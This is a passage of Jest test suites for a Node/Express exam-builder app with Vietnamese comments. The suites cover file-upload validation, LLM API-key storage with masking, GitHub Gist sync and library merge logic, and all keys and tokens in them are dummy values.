        .attach('file', Buffer.from('noi dung'), 'file-goc.txt');

      const listRes = await request(app).get('/api/resources');
      const doc = listRes.body.documents.find(d => d.doc_id === docId);
      expect(doc.sections[0].section_title).toBe('Ten tuy chon');
    });

    test('TC-RES-11: upload .docx that trich xuat dung noi dung van ban', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const docId = docRes.body.doc_id;
      const buffer = await buildDocxBuffer(['Noi dung chuong 1 tu file Word']);

      const res = await request(app)
        .post(`/api/resources/${docId}/sections/upload`)
        .attach('file', buffer, 'giao-trinh.docx');
      expect(res.status).toBe(200);

      const listRes = await request(app).get('/api/resources');
      const doc = listRes.body.documents.find(d => d.doc_id === docId);
      expect(doc.sections[0].section_title).toBe('giao-trinh');
    }, 20000);

    test('TC-RES-12: upload .pdf trich xuat dung noi dung van ban (pdf-parse duoc mock, xem ly do o dau file)', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const docId = docRes.body.doc_id;
      mockGetText.mockResolvedValue({ text: 'Noi dung chuong 1 tu file PDF' });

      const res = await request(app)
        .post(`/api/resources/${docId}/sections/upload`)
        .attach('file', Buffer.from('fake pdf bytes'), 'giao-trinh.pdf');
      expect(res.status).toBe(200);
      expect(mockDestroy).toHaveBeenCalledTimes(1);

      const listRes = await request(app).get('/api/resources');
      const doc = listRes.body.documents.find(d => d.doc_id === docId);
      expect(doc.sections[0].section_title).toBe('giao-trinh');
    });
  });

  describe('Negative Cases', () => {
    test('TC-RES-13: doc_id khong ton tai tra ve 404', async () => {
      const res = await request(buildApp())
        .post('/api/resources/00000000-0000-0000-0000-000000000000/sections/upload')
        .attach('file', Buffer.from('x'), 'x.txt');
      expect(res.status).toBe(404);
    });

    test('TC-RES-14: khong dinh kem file tra ve 400', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const res = await request(app).post(`/api/resources/${docRes.body.doc_id}/sections/upload`).send();
      expect(res.status).toBe(400);
    });

    test('TC-RES-15: dinh dang tep khong ho tro bi tu choi', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const res = await request(app)
        .post(`/api/resources/${docRes.body.doc_id}/sections/upload`)
        .attach('file', Buffer.from('x'), 'malicious.exe');
      expect(res.status).toBe(400);
    });

    test('TC-RES-16: file .docx bi hong (khong phai zip/docx that) tra ve 400 ro rang, khong crash', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const res = await request(app)
        .post(`/api/resources/${docRes.body.doc_id}/sections/upload`)
        .attach('file', Buffer.from('day khong phai la mot tep docx hop le'), 'hong.docx');
      expect(res.status).toBe(400);
      expect(res.body.error).toMatch(/Khong the doc noi dung tep Word/);
    });

    test('TC-RES-17: file .pdf bi hong tra ve 400 ro rang, khong crash', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      mockGetText.mockRejectedValue(new Error('Invalid PDF structure.')); // dung dung thong bao pdf-parse tra ve that (da kiem chung thu cong)
      const res = await request(app)
        .post(`/api/resources/${docRes.body.doc_id}/sections/upload`)
        .attach('file', Buffer.from('day khong phai la mot tep pdf hop le'), 'hong.pdf');
      expect(res.status).toBe(400);
      expect(res.body.error).toMatch(/Khong the doc noi dung tep PDF/);
    });
  });
});

describe('DELETE /api/resources/:doc_id', () => {
  test('TC-RES-07: xoa tai lieu se CASCADE xoa het section ben trong', async () => {
    const app = buildApp();
    const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
    const docId = docRes.body.doc_id;
    await request(app).post(`/api/resources/${docId}/sections`).send({ section_title: 'Phan 1', content: 'X' });

    const delRes = await request(app).delete(`/api/resources/${docId}`);
    expect(delRes.status).toBe(200);

    const listRes = await request(app).get('/api/resources');
    expect(listRes.body.documents.find(d => d.doc_id === docId)).toBeUndefined();
  });

  test('TC-RES-08: xoa tai lieu khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).delete('/api/resources/00000000-0000-0000-0000-000000000000');
    expect(res.status).toBe(404);
  });
});

```

### FILE: tests/routes/settingsRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const mockGenerate = jest.fn();
jest.mock('../../backend/llm/ProviderFactory', () => ({
  createProvider: jest.fn(() => ({ generate: mockGenerate })),
  listModelsFor: jest.fn()
}));

const express = require('express');
const request = require('supertest');
const { closeDb } = require('../../backend/database');
const settingsRoutes = require('../../backend/routes/settingsRoutes');
const { errorHandler } = require('../../backend/errorHandler');
const { createProvider, listModelsFor } = require('../../backend/llm/ProviderFactory');

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/settings', settingsRoutes);
  app.use(errorHandler);
  return app;
}

afterEach(async () => {
  jest.clearAllMocks();
  await closeDb();
});

describe('GET/POST /api/settings/llm', () => {
  describe('Happy Path', () => {
    test('TC-SET-01: chua cau hinh provider nao tra ve mang rong', async () => {
      const res = await request(buildApp()).get('/api/settings/llm');
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(res.body.providers).toEqual([]);
    });

    test('TC-SET-02: luu key roi doc lai chi thay key da che, khong bao gio tra full key', async () => {
      const app = buildApp();
      const saveRes = await request(app).post('/api/settings/llm').send({ provider: 'openai', api_key: 'sk-abcdefgh1234' });
      expect(saveRes.status).toBe(200);
      expect(saveRes.body.success).toBe(true);

      const getRes = await request(app).get('/api/settings/llm');
      expect(getRes.body.providers).toHaveLength(1);
      const row = getRes.body.providers[0];
      expect(row.provider).toBe('openai');
      expect(row.has_key).toBe(true);
      expect(row.masked_key).not.toBe('sk-abcdefgh1234');
      expect(row.masked_key).toContain('...');
      expect(JSON.stringify(getRes.body)).not.toContain('sk-abcdefgh1234');
    });

    test('TC-SET-03: luu lai key cho provider da ton tai se ghi de (upsert), khong tao dong moi', async () => {
      const app = buildApp();
      await request(app).post('/api/settings/llm').send({ provider: 'gemini', api_key: 'AIza-old' });
      await request(app).post('/api/settings/llm').send({ provider: 'gemini', api_key: 'AIza-new' });

      const res = await request(app).get('/api/settings/llm');
      expect(res.body.providers.filter(p => p.provider === 'gemini')).toHaveLength(1);
    });
  });

  describe('Negative Cases', () => {
    test('TC-SET-04: provider khong hop le tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm').send({ provider: 'unknown', api_key: 'x' });
      expect(res.status).toBe(400);
      expect(res.body.success).toBe(false);
    });

    test('TC-SET-05: thieu api_key tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm').send({ provider: 'openai' });
      expect(res.status).toBe(400);
    });

    test('TC-SET-06: api_key chi toan khoang trang tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm').send({ provider: 'openai', api_key: '   ' });
      expect(res.status).toBe(400);
    });
  });
});

describe('POST /api/settings/llm/test', () => {
  describe('Happy Path', () => {
    test('TC-SET-07: goi thanh cong tra ve success true', async () => {
      mockGenerate.mockResolvedValue('OK');
      const res = await request(buildApp()).post('/api/settings/llm/test').send({
        provider: 'openai', api_key: 'sk-test', model_name: 'gpt-4o-mini'
      });
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(mockGenerate).toHaveBeenCalledTimes(1);
    });

    test('TC-SET-08: khong truyen api_key thi dung key da luu truoc do', async () => {
      const app = buildApp();
      await request(app).post('/api/settings/llm').send({ provider: 'openai', api_key: 'sk-saved' });
      mockGenerate.mockResolvedValue('OK');

      const res = await request(app).post('/api/settings/llm/test').send({ provider: 'openai', model_name: 'gpt-4o-mini' });
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(createProvider).toHaveBeenCalledWith(expect.any(Object), 'sk-saved');
    });
  });

  describe('Negative Cases', () => {
    test('TC-SET-09: provider goi loi tra ve 502 kem thong bao loi', async () => {
      mockGenerate.mockRejectedValue(new Error('OpenAI: loi API (HTTP 401)'));
      const res = await request(buildApp()).post('/api/settings/llm/test').send({
        provider: 'openai', api_key: 'sk-bad', model_name: 'gpt-4o-mini'
      });
      expect(res.status).toBe(502);
      expect(res.body.success).toBe(false);
      expect(res.body.error).toMatch(/HTTP 401/);
    });

    test('TC-SET-10: khong co api_key nao (chua nhap, chua luu) tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm/test').send({
        provider: 'anthropic', model_name: 'claude-x'
      });
      expect(res.status).toBe(400);
    });

    test('TC-SET-11: thieu model_name tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm/test').send({
        provider: 'openai', api_key: 'sk-test'
      });
      expect(res.status).toBe(400);
    });
  });
});

describe('POST /api/settings/llm/models', () => {
  describe('Happy Path', () => {
    test('TC-SET-12: goi thanh cong tra ve danh sach model', async () => {
      listModelsFor.mockResolvedValue([{ id: 'claude-3-5-haiku-20241022', display_name: 'Claude 3.5 Haiku' }]);
      const res = await request(buildApp()).post('/api/settings/llm/models').send({
        provider: 'anthropic', api_key: 'sk-ant-test'
      });
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(res.body.models).toEqual([{ id: 'claude-3-5-haiku-20241022', display_name: 'Claude 3.5 Haiku' }]);
      expect(listModelsFor).toHaveBeenCalledWith('anthropic', 'sk-ant-test');
    });

    test('TC-SET-13: khong truyen api_key thi dung key da luu truoc do', async () => {
      const app = buildApp();
      await request(app).post('/api/settings/llm').send({ provider: 'gemini', api_key: 'AIza-saved' });
      listModelsFor.mockResolvedValue([]);

      const res = await request(app).post('/api/settings/llm/models').send({ provider: 'gemini' });
      expect(res.status).toBe(200);
      expect(listModelsFor).toHaveBeenCalledWith('gemini', 'AIza-saved');
    });
  });

  describe('Negative Cases', () => {
    test('TC-SET-14: provider khong hop le tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm/models').send({ provider: 'unknown' });
      expect(res.status).toBe(400);
    });

    test('TC-SET-15: khong co api_key nao (chua nhap, chua luu) tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/settings/llm/models').send({ provider: 'openai' });
      expect(res.status).toBe(400);
    });

    test('TC-SET-16: provider goi loi tra ve 502 kem thong bao loi', async () => {
      listModelsFor.mockRejectedValue(new Error('Anthropic: loi API (HTTP 401)'));
      const res = await request(buildApp()).post('/api/settings/llm/models').send({
        provider: 'anthropic', api_key: 'sk-ant-bad'
      });
      expect(res.status).toBe(502);
      expect(res.body.success).toBe(false);
      expect(res.body.error).toMatch(/HTTP 401/);
    });
  });
});

```

### FILE: tests/routes/syncRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

jest.mock('../../backend/sync/gistClient', () => ({
  LIBRARY_FILENAME: 'exambuilder-library.json',
  getLibrary: jest.fn(),
  createGist: jest.fn(),
  updateGist: jest.fn()
}));

const express = require('express');
const request = require('supertest');
const { closeDb } = require('../../backend/database');
const archiveRoutes = require('../../backend/routes/archiveRoutes');
const syncRoutes = require('../../backend/routes/syncRoutes');
const gistClient = require('../../backend/sync/gistClient');
const { errorHandler } = require('../../backend/errorHandler');

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/archive', archiveRoutes);
  app.use('/api/sync', syncRoutes);
  app.use(errorHandler);
  return app;
}

afterEach(async () => {
  jest.clearAllMocks();
  await closeDb();
});

const BLOCKS = [
  {
    block_type: 'MULTIPLE_CHOICE',
    questions: [{
      question_type: 'MCQ', content: 'x', difficulty_level: 'NB', correct_answer: 'A',
      options: [
        { option_key: 'A', option_text: '1', is_correct: true },
        { option_key: 'B', option_text: '2', is_correct: false }
      ]
    }]
  }
];

function examBody(over = {}) {
  return { title: 'De', subject: 'Toan', duration_minutes: 45, school_header: '', blocks: BLOCKS, ...over };
}

function cloudLibrary(exams, theme) {
  const lib = { schema: 'exambuilder/library@1', updated_at: '2026-01-01T00:00:00Z', exams };
  if (theme) lib.theme = theme;
  return JSON.stringify(lib);
}

describe('GET/POST /api/sync/settings', () => {
  test('TC-SYNC-01: chua cau hinh -> configured false', async () => {
    const res = await request(buildApp()).get('/api/sync/settings');
    expect(res.body).toMatchObject({ success: true, configured: false, has_token: false, gist_id: '' });
  });

  test('TC-SYNC-02: luu token roi doc lai chi thay token da che', async () => {
    const app = buildApp();
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_supersecrettoken123', gist_id: 'abc123' });
    const res = await request(app).get('/api/sync/settings');
    expect(res.body.has_token).toBe(true);
    expect(res.body.gist_id).toBe('abc123');
    expect(res.body.masked_token).not.toContain('supersecret');
    expect(JSON.stringify(res.body)).not.toContain('ghp_supersecrettoken123');
  });

  test('TC-SYNC-03: POST chi kem gist_id giu nguyen token da luu', async () => {
    const app = buildApp();
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_keepme_000000' });
    await request(app).post('/api/sync/settings').send({ gist_id: 'newgist' });
    const res = await request(app).get('/api/sync/settings');
    expect(res.body.has_token).toBe(true);
    expect(res.body.gist_id).toBe('newgist');
  });
});

describe('POST /api/sync/push', () => {
  test('TC-SYNC-04: chua co token -> 400', async () => {
    const res = await request(buildApp()).post('/api/sync/push');
    expect(res.status).toBe(400);
  });

  test('TC-SYNC-05: chua co gist_id -> tao Gist moi va luu lai id', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody({ title: 'De local' }));
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567' });
    gistClient.createGist.mockResolvedValue({ id: 'created-gist-id', html_url: 'https://gist.github.com/x' });

    const res = await request(app).post('/api/sync/push');
    expect(res.status).toBe(200);
    expect(gistClient.createGist).toHaveBeenCalledTimes(1);
    expect(gistClient.updateGist).not.toHaveBeenCalled();
    expect(res.body.gist_id).toBe('created-gist-id');

    // id moi da duoc luu vao settings
    const settings = await request(app).get('/api/sync/settings');
    expect(settings.body.gist_id).toBe('created-gist-id');

    // noi dung day len co chua de local
    const pushedContent = JSON.parse(gistClient.createGist.mock.calls[0][1]);
    expect(pushedContent.exams.some(e => e.title === 'De local')).toBe(true);
  });

  test('TC-SYNC-06: co gist_id -> merge(local, cloud) roi updateGist; local thang khi trung id', async () => {
    const app = buildApp();
    const saved = await request(app).post('/api/archive').send(examBody({ title: 'Ban LOCAL' }));
    const id = saved.body.exam_id;
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });

    gistClient.getLibrary.mockResolvedValue(cloudLibrary([
      { exam_id: id, title: 'ban cloud cu', subject: '', duration_minutes: null, school_header: '', blocks: BLOCKS,
        created_at: '2026-01-01T00:00:00Z', updated_at: '2026-01-01T00:00:00Z', deleted_at: null },
      { exam_id: 'cloud-only', title: 'chi co tren cloud', subject: '', duration_minutes: null, school_header: '', blocks: BLOCKS,
        created_at: '2026-01-01T00:00:00Z', updated_at: '2026-01-01T00:00:00Z', deleted_at: null }
    ]));
    gistClient.updateGist.mockResolvedValue({ id: 'g1', html_url: 'https://gist.github.com/g1' });

    const res = await request(app).post('/api/sync/push');
    expect(res.status).toBe(200);
    const content = JSON.parse(gistClient.updateGist.mock.calls[0][2]);
    const merged = Object.fromEntries(content.exams.map(e => [e.exam_id, e]));
    expect(merged[id].title).toBe('Ban LOCAL');          // local thang
    expect(merged['cloud-only'].title).toBe('chi co tren cloud'); // union giu de chi co tren cloud

    // de chi-co-cloud da duoc keo ve may (persist merged)
    const list = await request(app).get('/api/archive');
    expect(list.body.exams.some(e => e.title === 'chi co tren cloud')).toBe(true);
  });

  test('TC-SYNC-07: loi GitHub (401) -> 502 kem thong bao', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody());
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_bad_000000000', gist_id: 'g1' });
    gistClient.getLibrary.mockRejectedValue(new Error('GitHub tu choi token (HTTP 401).'));

    const res = await request(app).post('/api/sync/push');
    expect(res.status).toBe(502);
    expect(res.body.error).toMatch(/401/);
  });
});

describe('POST /api/sync/pull', () => {
  test('TC-SYNC-08: chua co gist_id -> 400', async () => {
    const app = buildApp();
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567' });
    const res = await request(app).post('/api/sync/pull');
    expect(res.status).toBe(400);
  });

  test('TC-SYNC-09: merge(cloud, local): cloud thang -> khoi phuc de da xoa cuc bo', async () => {
    const app = buildApp();
    const saved = await request(app).post('/api/archive').send(examBody({ title: 'ban local' }));
    const id = saved.body.exam_id;
    await request(app).delete(`/api/archive/${id}`); // xoa cuc bo -> tombstone
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });

    gistClient.getLibrary.mockResolvedValue(cloudLibrary([
      { exam_id: id, title: 'ban cloud CON SONG', subject: '', duration_minutes: null, school_header: '', blocks: BLOCKS,
        created_at: '2026-01-01T00:00:00Z', updated_at: '2026-01-01T00:00:00Z', deleted_at: null }
    ]));

    const res = await request(app).post('/api/sync/pull');
    expect(res.status).toBe(200);

    const list = await request(app).get('/api/archive');
    const restored = list.body.exams.find(e => e.exam_id === id);
    expect(restored).toBeDefined();
    expect(restored.title).toBe('ban cloud CON SONG');
  });

  test('TC-SYNC-10: gist chua co file thu vien (getLibrary -> null) van chay, khong nem', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody({ title: 'giu lai' }));
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });
    gistClient.getLibrary.mockResolvedValue(null);

    const res = await request(app).post('/api/sync/pull');
    expect(res.status).toBe(200);
    const list = await request(app).get('/api/archive');
    expect(list.body.exams.some(e => e.title === 'giu lai')).toBe(true);
  });
});

describe('dong bo chu de mau (theme) qua body', () => {
  const OLD = '2026-01-01T00:00:00.000Z';
  const NEW = '2026-08-01T00:00:00.000Z';

  test('TC-SYNC-11: push - theme client moi hon -> ghi len Gist + tra ve', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody());
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });
    gistClient.getLibrary.mockResolvedValue(cloudLibrary([], { id: 'cold', updated_at: OLD }));
    gistClient.updateGist.mockResolvedValue({ id: 'g1', html_url: 'https://gist.github.com/g1' });

    const res = await request(app).post('/api/sync/push').send({ theme: { id: 'peach', updated_at: NEW } });
    expect(res.status).toBe(200);
    expect(res.body.theme).toEqual({ id: 'peach', updated_at: NEW });
    const content = JSON.parse(gistClient.updateGist.mock.calls[0][2]);
    expect(content.theme).toEqual({ id: 'peach', updated_at: NEW });
  });

  test('TC-SYNC-12: push - theme cloud moi hon -> giu theme cloud, tra ve cho may day', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody());
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });
    gistClient.getLibrary.mockResolvedValue(cloudLibrary([], { id: 'midnight', updated_at: NEW }));
    gistClient.updateGist.mockResolvedValue({ id: 'g1', html_url: 'https://gist.github.com/g1' });

    const res = await request(app).post('/api/sync/push').send({ theme: { id: 'cold', updated_at: OLD } });
    expect(res.status).toBe(200);
    expect(res.body.theme).toEqual({ id: 'midnight', updated_at: NEW });
  });

  test('TC-SYNC-13: pull - tra ve theme ben moi hon (cloud)', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody());
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });
    gistClient.getLibrary.mockResolvedValue(cloudLibrary([], { id: 'honey', updated_at: NEW }));

    const res = await request(app).post('/api/sync/pull').send({ theme: { id: 'cold', updated_at: OLD } });
    expect(res.status).toBe(200);
    expect(res.body.theme).toEqual({ id: 'honey', updated_at: NEW });
  });

  test('TC-SYNC-14: khong gui theme trong body -> khong nem, theme = theme cloud', async () => {
    const app = buildApp();
    await request(app).post('/api/archive').send(examBody());
    await request(app).post('/api/sync/settings').send({ github_token: 'ghp_token_1234567', gist_id: 'g1' });
    gistClient.getLibrary.mockResolvedValue(cloudLibrary([], { id: 'pine', updated_at: OLD }));

    const res = await request(app).post('/api/sync/pull');
    expect(res.status).toBe(200);
    expect(res.body.theme).toEqual({ id: 'pine', updated_at: OLD });
  });
});

```

### FILE: tests/sync/gistClient.test.js

```javascript
const http = require('http');

// Mock GitHub Gist API cuc bo — kiem tra wiring HTTP that (URL, header, parse
// JSON), khong chi mock module. GITHUB_API_BASE tro gistClient toi server nay.
let server;
let baseUrl;
let lastRequest;
let gistStore;

beforeAll(done => {
  server = http.createServer((req, res) => {
    let body = '';
    req.on('data', c => (body += c));
    req.on('end', () => {
      lastRequest = { method: req.method, url: req.url, headers: req.headers, body };
      const send = (code, obj) => {
        res.writeHead(code, { 'Content-Type': 'application/json' });
        res.end(JSON.stringify(obj));
      };

      if (req.method === 'POST' && req.url === '/gists') {
        const parsed = JSON.parse(body);
        gistStore = { id: 'gist-xyz', html_url: 'https://gist.github.com/u/gist-xyz', files: parsed.files };
        return send(201, gistStore);
      }
      if (req.method === 'GET' && req.url === '/gists/gist-xyz') {
        return send(200, gistStore);
      }
      if (req.method === 'PATCH' && req.url === '/gists/gist-xyz') {
        const parsed = JSON.parse(body);
        gistStore.files = { ...gistStore.files, ...parsed.files };
        return send(200, gistStore);
      }
      if (req.method === 'GET' && req.url === '/gists/missing') {
        return send(404, { message: 'Not Found' });
      }
      if (req.method === 'GET' && req.url === '/gists/badtoken') {
        return send(401, { message: 'Bad credentials' });
      }
      send(400, { message: 'unexpected' });
    });
  });
  server.listen(0, () => {
    baseUrl = `http://127.0.0.1:${server.address().port}`;
    process.env.GITHUB_API_BASE = baseUrl;
    done();
  });
});

afterAll(done => {
  delete process.env.GITHUB_API_BASE;
  server.close(done);
});

beforeEach(() => {
  gistStore = undefined;
  lastRequest = undefined;
  jest.resetModules();
});

function freshClient() {
  return require('../../backend/sync/gistClient');
}

test('TC-GC-01: createGist gui public:false + file thu vien, dinh kem header Bearer', async () => {
  const client = freshClient();
  const ref = await client.createGist('tok_123', '{"exams":[]}');
  expect(ref).toEqual({ id: 'gist-xyz', html_url: 'https://gist.github.com/u/gist-xyz' });
  expect(lastRequest.headers.authorization).toBe('Bearer tok_123');
  expect(lastRequest.headers.accept).toBe('application/vnd.github+json');
  const sent = JSON.parse(lastRequest.body);
  expect(sent.public).toBe(false);
  expect(sent.files['exambuilder-library.json'].content).toBe('{"exams":[]}');
});

test('TC-GC-02: getLibrary tra ve content cua file thu vien', async () => {
  const client = freshClient();
  await client.createGist('tok', '{"exams":[{"exam_id":"a"}]}');
  const content = await client.getLibrary('tok', 'gist-xyz');
  expect(JSON.parse(content).exams[0].exam_id).toBe('a');
});

test('TC-GC-03: updateGist ghi de content, getLibrary doc lai thay ban moi', async () => {
  const client = freshClient();
  await client.createGist('tok', '{"v":1}');
  await client.updateGist('tok', 'gist-xyz', '{"v":2}');
  expect(await client.getLibrary('tok', 'gist-xyz')).toBe('{"v":2}');
});

test('TC-GC-04: getLibrary tren gist khong co file thu vien -> null', async () => {
  const client = freshClient();
  // tao gist voi file khac ten
  gistStore = { id: 'gist-xyz', files: { 'other.txt': { content: 'x' } } };
  expect(await client.getLibrary('tok', 'gist-xyz')).toBeNull();
});

test('TC-GC-05: 404 -> loi "Khong tim thay Gist"', async () => {
  const client = freshClient();
  await expect(client.getLibrary('tok', 'missing')).rejects.toThrow(/404/);
});

test('TC-GC-06: 401 -> loi "GitHub tu choi token"', async () => {
  const client = freshClient();
  await expect(client.getLibrary('tok', 'badtoken')).rejects.toThrow(/401/);
});

```

### FILE: tests/sync/library.test.js

```javascript
const {
  rowsToLibrary,
  libraryToRows,
  mergeLibraries,
  purgeOldTombstones,
  parseLibrary,
  sanitizeTheme,
  pickNewerTheme,
  emptyLibrary,
  summarize,
  LIBRARY_SCHEMA
} = require('../../backend/sync/library');

const BLOCKS = [
  { block_type: 'MULTIPLE_CHOICE', block_title: 'Phan I', questions: [
    { question_type: 'MCQ', content: '2+2=?', difficulty_level: 'NB', correct_answer: 'B',
      options: [{ option_key: 'A', option_text: '3', is_correct: false }, { option_key: 'B', option_text: '4', is_correct: true }] }
  ] }
];

function exam(id, over = {}) {
  return {
    exam_id: id,
    title: `De ${id}`,
    subject: 'Toan',
    duration_minutes: 45,
    school_header: 'THPT X',
    blocks: BLOCKS,
    created_at: '2026-01-01T00:00:00Z',
    updated_at: '2026-01-01T00:00:00Z',
    deleted_at: null,
    ...over
  };
}

function lib(exams) {
  return { schema: LIBRARY_SCHEMA, updated_at: '2026-01-01T00:00:00Z', exams };
}

describe('parseLibrary', () => {
  test('chuoi JSON hop le -> library', () => {
    const out = parseLibrary(JSON.stringify(lib([exam('a')])));
    expect(out.exams).toHaveLength(1);
    expect(out.exams[0].exam_id).toBe('a');
  });

  test('JSON hong / cau truc sai -> library rong (khong nem)', () => {
    expect(parseLibrary('{khong-phai-json').exams).toEqual([]);
    expect(parseLibrary('{"foo":1}').exams).toEqual([]);
    expect(parseLibrary(null).exams).toEqual([]);
  });

  test('bo qua muc thieu exam_id', () => {
    const out = parseLibrary({ exams: [{ title: 'khong co id' }, exam('b')] });
    expect(out.exams.map(e => e.exam_id)).toEqual(['b']);
  });
});

describe('rowsToLibrary / libraryToRows (round-trip)', () => {
  test('template snapshot survives row, gist normalization and row conversion', () => {
    const binding = { schema_version: 1, template_id: 'builtin.t10', template_version: 1, template_snapshot: { sections: [{ stimulus: 'Read this text' }] } };
    const rows = [{ exam_id: 'bound', payload_json: JSON.stringify({ blocks: BLOCKS, template_binding: binding }) }];
    const cloud = parseLibrary(JSON.stringify(rowsToLibrary(rows)));
    expect(cloud.exams[0].template_binding).toEqual(binding);
    expect(JSON.parse(libraryToRows(cloud)[0].payload_json).template_binding).toEqual(binding);
    expect(mergeLibraries(cloud, emptyLibrary()).exams[0].template_binding).toEqual(binding);
  });
  test('row -> library -> row giu nguyen du lieu cot va blocks', () => {
    const rows = [{
      exam_id: 'x1', title: 'De x1', subject: 'Ly', duration_minutes: 30, school_header: 'H',
      payload_json: JSON.stringify({ title: 'De x1', subject: 'Ly', duration_minutes: 30, school_header: 'H', blocks: BLOCKS }),
      created_at: '2026-02-02 08:00:00', updated_at: '2026-02-03 09:00:00', deleted_at: null
    }];
    const library = rowsToLibrary(rows);
    expect(library.exams[0].blocks).toEqual(BLOCKS);
    // moc thoi gian SQLite (co dau cach) duoc chuan hoa ve ISO 8601 UTC
    expect(library.exams[0].updated_at).toBe('2026-02-03T09:00:00.000Z');

    const back = libraryToRows(library);
    expect(back[0].exam_id).toBe('x1');
    expect(JSON.parse(back[0].payload_json).blocks).toEqual(BLOCKS);
  });

  test('payload_json hong -> blocks rong, khong nem', () => {
    const library = rowsToLibrary([{ exam_id: 'bad', payload_json: '{oops' }]);
    expect(library.exams[0].blocks).toEqual([]);
  });
});

describe('mergeLibraries - "primary thang", union theo exam_id', () => {
  test('chi ben local', () => {
    const out = mergeLibraries(lib([exam('a')]), emptyLibrary());
    expect(out.exams.map(e => e.exam_id)).toEqual(['a']);
  });

  test('chi ben cloud', () => {
    const out = mergeLibraries(emptyLibrary(), lib([exam('c')]));
    expect(out.exams.map(e => e.exam_id)).toEqual(['c']);
  });

  test('union: id khac nhau o 2 ben deu duoc giu', () => {
    const out = mergeLibraries(lib([exam('a')]), lib([exam('b')]));
    expect(out.exams.map(e => e.exam_id).sort()).toEqual(['a', 'b']);
  });

  test('xung dot cung id: PRIMARY thang', () => {
    const primary = lib([exam('a', { title: 'BAN PRIMARY' })]);
    const secondary = lib([exam('a', { title: 'ban secondary' })]);
    expect(mergeLibraries(primary, secondary).exams[0].title).toBe('BAN PRIMARY');
  });

  test('Pull = merge(cloud, local): tombstone local bi de boi ban live tren cloud (khoi phuc)', () => {
    const cloud = lib([exam('a', { deleted_at: null, title: 'song lai' })]);
    const local = lib([exam('a', { deleted_at: '2026-03-01T00:00:00Z' })]);
    const out = mergeLibraries(cloud, local); // cloud = primary
    expect(out.exams[0].deleted_at).toBeNull();
    expect(out.exams[0].title).toBe('song lai');
  });

  test('Push = merge(local, cloud): tombstone local lan len (xoa vinh vien tren cloud)', () => {
    const local = lib([exam('a', { deleted_at: '2026-03-01T00:00:00Z' })]);
    const cloud = lib([exam('a', { deleted_at: null })]);
    const out = mergeLibraries(local, cloud); // local = primary
    expect(out.exams[0].deleted_at).toBe('2026-03-01T00:00:00.000Z');
  });

  test('nhan chuoi JSON tho o ca 2 tham so', () => {
    const out = mergeLibraries(JSON.stringify(lib([exam('a')])), JSON.stringify(lib([exam('b')])));
    expect(out.exams).toHaveLength(2);
  });
});

describe('purgeOldTombstones', () => {
  test('bo tombstone cu hon nguong, giu tombstone moi va de con song', () => {
    const old = new Date(Date.now() - 200 * 86400000).toISOString();
    const recent = new Date(Date.now() - 5 * 86400000).toISOString();
    const out = purgeOldTombstones(lib([
      exam('live'),
      exam('old-del', { deleted_at: old }),
      exam('new-del', { deleted_at: recent })
    ]), 90);
    expect(out.exams.map(e => e.exam_id).sort()).toEqual(['live', 'new-del']);
  });
});

describe('summarize', () => {
  test('dem tong / dang luu / da xoa', () => {
    const s = summarize(lib([exam('a'), exam('b', { deleted_at: '2026-01-01T00:00:00Z' })]));
    expect(s).toEqual({ total: 2, active: 1, tombstones: 1 });
  });
});

describe('theme - "lan doi gan nhat thang"', () => {
  const T1 = '2026-05-01T00:00:00.000Z';
  const T2 = '2026-06-01T00:00:00.000Z';
  const withTheme = (theme) => ({ ...lib([exam('a')]), theme });

  describe('sanitizeTheme', () => {
    test('id hop le -> chuan hoa updated_at ve ISO', () => {
      expect(sanitizeTheme({ id: 'midnight', updated_at: T1 })).toEqual({ id: 'midnight', updated_at: T1 });
    });
    test('id sai / rong / khong phai object -> null', () => {
